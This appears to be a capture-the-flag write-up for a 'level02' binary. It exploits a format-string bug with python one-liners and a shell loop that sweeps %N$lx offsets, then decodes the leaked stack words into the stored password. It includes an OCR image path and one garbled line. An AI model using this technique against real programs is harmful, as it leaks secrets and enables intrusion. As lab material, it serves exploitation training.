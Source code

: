 (python -c "print '\xff\xff\xff\xff' + '%x '*20 + '\n' + 'BBBB\n'") | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
ffffe500 0 42 2a2a2a2a 2a2a2a2a ffffe6f8 f7ff9a08 42424242 0 0 0 0 0 0 0 0 0 0 0 0  does not have access!

0x7fffffffe540 buffer fread


<pre>
#!/bin/sh
IDX=0
while [ $IDX -lt 361 ]
do
echo $IDX >> /tmp/hexmap
(python -c "print '%$IDX\$lx ' + '\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'  + '\n'") | ~/level02 | grep "access!" >> /tmp/hexmap   
IDX=$((IDX+1))
echo $IDX
done
</pre>


cat hexmap
<pre>
%0$lx  does not have access!
7fffffffe4f0  does not have access!
0  does not have access!
0  does not have access!
2a2a2a2a2a2a2a2a  does not have access!
2a2a2a2a2a2a2a2a  does not have access!
7fffffffe6e8  does not have access!
1f7ff9a08  does not have access!
...
100000000  does not have access!
0  does not have access!
756e505234376848  does not have access!
45414a3561733951  does not have access!
377a7143574e6758  does not have access!
354a35686e475873  does not have access!
48336750664b394d  does not have access!
0  does not have access!
20786c24383225  does not have access!
...
</p14.	.	r1.	e1.	23	5.	.	>



<pre>
	little endian	 => big endian		 => big str	 => little str		
1.	756e505234376848 => 4868373452506e75 => Hh74RPnu => unPR47hH
2.	45414a3561733951 => 51397361354a4145 => Q9sa5JAE => EAJ5as9Q
3.	377a7143574e6758 => 58674e5743717a37 => XgNWCqz7 => 7zqCWNgX
4.	354a35686e475873 => 7358476e68354a35 => sXGnh5J5 => 5J5hnGXs
5.	48336750664b394d => d4394b6650673348 => M9KfPg3H => H3gPfK9M
0 => length 40

string little		=> unPR47hHEAJ5as9Q7zqCWNgX5J5hnGXsH3gPfK9M
string rev little	=> H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH

string big		=> Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H => VICTORY
string rev big	=> M9KfPg3HsXGnh5J5XgNWCqz7Q9sa5JAEHh74RPnu
</pre>